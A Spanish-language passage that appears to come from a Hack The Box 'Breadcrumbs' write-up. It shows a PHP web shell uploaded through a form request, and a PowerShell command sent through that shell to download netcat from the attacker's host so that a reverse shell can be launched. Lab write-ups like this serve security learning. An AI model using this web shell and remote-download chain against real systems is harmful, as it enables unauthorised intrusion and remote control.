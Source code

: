 ![316page80_phpF_holi](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316page80_phpF_holi.png)

Perfecto, ya con esto podemos conseguir ejecucion de comandos en el sistema, hagámoslo para lanzarnos una Reverse Shell...

```php
...
Content-Type: application/x-php

<?php
    $coma=shell_exec($_GET['xmd']); echo $coma;
?>


-----------------------------1138605338005785511225757143
...
```

![316page80_phpF_holi_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316page80_phpF_holi_RCE.png)

Enumerando podemos escribir en el directorio:

```powershell
C:\Users\www-data\Desktop\\xampp\tmp
```

Aprovechemos esto para subir el binario `nc` para posteriormente lanzarnos una petición hacia nuestro listener y obtener una Shell:

Nos ponemos en escucha donde tengamos el binario y ejecutamos:

```html
?xmd=powershell -c "IWR -uri http://10.10.14.194:8000/nc64.exe -OutFile C:\\Users\\www-data\\Desktop\\xampp\\tmp\\nc.exe"
```

Validamos:

```html
?xmd=dir C:\Users\www-data\Desktop\\xampp\tmp\
```

```powershell
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\www-data\Desktop\\xampp\tmp

03/12/2021  12:55 PM    <DIR>          .
03/12/2021  12:55 PM    <DIR>          ..
03/12/2021  12:47 PM                12 holas.txt
03/12/2021  12:55 PM            45,272 nc.exe
03/12/2021  12:53 PM                 0 sess_04f3tvcgqt3lcuabhihd56tbdv
...
```
